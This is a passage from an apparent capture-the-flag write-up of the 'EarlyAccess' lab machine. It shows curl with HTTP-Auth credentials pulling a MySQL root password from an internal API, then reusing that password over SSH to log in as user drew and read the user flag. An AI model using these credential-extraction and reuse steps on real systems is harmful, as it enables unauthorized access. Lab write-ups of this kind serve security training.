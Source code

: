 #### Using curl

Using curl, we manually have to specify the HTTP-Auth credentials using the `-u` flag.

```bash
www-adm@webserver:~$ curl api:5000/check_db
Invalid HTTP-Auth!
www-adm@webserver:~$ curl -sS -u 'api:s3CuR3_API_PW!' api:5000/check_db | grep -oE 'MYSQL_ROOT_PASSWORD=[^"]*'
MYSQL_ROOT_PASSWORD=XeoNu86JTznxMCQuGHrGutF3Csq5
```

We get the password for the user `drew`: `XeoNu86JTznxMCQuGHrGutF3Csq5`.

### Getting shell as user drew

Using the username and the password, we can try to ssh into the machine.

```bash
root@void:~# ssh drew@earlyaccess.htb
drew@earlyaccess.htb password: XeoNu86JTznxMCQuGHrGutF3Csq5
Linux earlyaccess 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Sep  5 15:56:50 2021 from 10.10.14.6
drew@earlyaccess:~$ ls -alh
total 32K
drwxr-xr-x 4 drew drew 4.0K Aug 18 16:04 .
drwxr-xr-x 4 root root 4.0K Jul 14  2021 ..
lrwxrwxrwx 1 root root    9 Jul 14  2021 .bash_history -> /dev/null
-rw-r--r-- 1 drew drew  220 May 24  2021 .bash_logout
-rw-r--r-- 1 drew drew 3.5K May 24  2021 .bashrc
drwx------ 3 drew drew 4.0K Aug 18 16:04 .gnupg
-rw-r--r-- 1 drew drew  807 May 24  2021 .profile
drwxr-x--- 2 drew drew 4.0K Aug 25 23:45 .ssh
-r-------- 1 drew drew   33 Feb  3 14:14 user.txt
```

We successfully login as `drew` on the machine and can now read user.txt.

```bash
drew@earlyaccess:~$ cat user.txt 
5424d***************************
```

Let us see if there are any other users on the machine.

```bash
drew@earlyaccess:/home$ ls -alh
total 16K
drwxr-xr-x  4 root     root     4.0K Jul 14  2021 .
drwxr-xr-x 19 root     root     4.0K Aug 31 02:39 ..
drwxr-xr-x  4 drew     drew     4.0K Aug 18 16:04 drew
drwxr-xr-x  2 game-adm game-adm 4.0K Jul 14  2021 game-adm
```
